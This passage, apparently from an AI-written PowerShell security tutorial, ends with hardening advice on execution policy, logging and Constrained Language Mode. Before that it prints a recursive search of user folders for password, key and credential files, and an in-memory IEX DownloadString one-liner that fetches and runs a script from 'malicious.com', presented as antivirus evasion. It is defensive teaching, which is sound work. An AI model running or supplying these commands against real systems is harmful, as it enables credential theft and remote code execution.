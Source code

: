 ### **🔹 Search for Sensitive Files**

```powershell
Get-ChildItem -Path "C:\Users" -Recurse -Include *password*, *key*, *credential*
```

✅ Searches for **sensitive files** on the system.

---

### **🔹 Evading Antivirus Detection**

Some **malware authors** use PowerShell to **bypass security** by running scripts **in memory**.

⚠️ **DO NOT use this for malicious purposes!**

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://malicious.com/script.ps1")
```

✅ Executes **a remote PowerShell script without saving it to disk**.

🚨 **How to Prevent This?**
1️⃣ **Block PowerShell for non-admin users**  
2️⃣ **Enable PowerShell logging**  
3️⃣ **Use `Constrained Language Mode`** to prevent execution of malicious scripts

```powershell
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

✅ **Prevents unauthorized scripts** from running.

---

## **📌 6. Best Practices for PowerShell Security & Compliance**

✅ **Use `RemoteSigned` Execution Policy** → Prevent unsigned scripts from running.  
✅ **Avoid Running Scripts from Untrusted Sources** → Always review code before execution.  
✅ **Enable Logging & Auditing** → Track all PowerShell activity.  
✅ **Manage User Permissions with ACLs** → Restrict access to critical files.  
✅ **Use `Constrained Language Mode`** → Limit PowerShell capabilities for non-admin users.  
✅ **Disable PowerShell for Non-Admins** → Prevent unauthorized access.

---

## **🎯 Conclusion: Mastering PowerShell Security & Compliance**

✅ PowerShell security **prevents unauthorized script execution**  
✅ Use **secure credentials** and **avoid hardcoding passwords**  
✅ **Manage file permissions & access control** with `Set-Acl`  
✅ **Enable logging & auditing** to track PowerShell usage  
✅ **PowerShell can be used for both security & hacking** – use it responsibly!

Would you like **pre-built security scripts for automation?** Let me know! 😊🚀
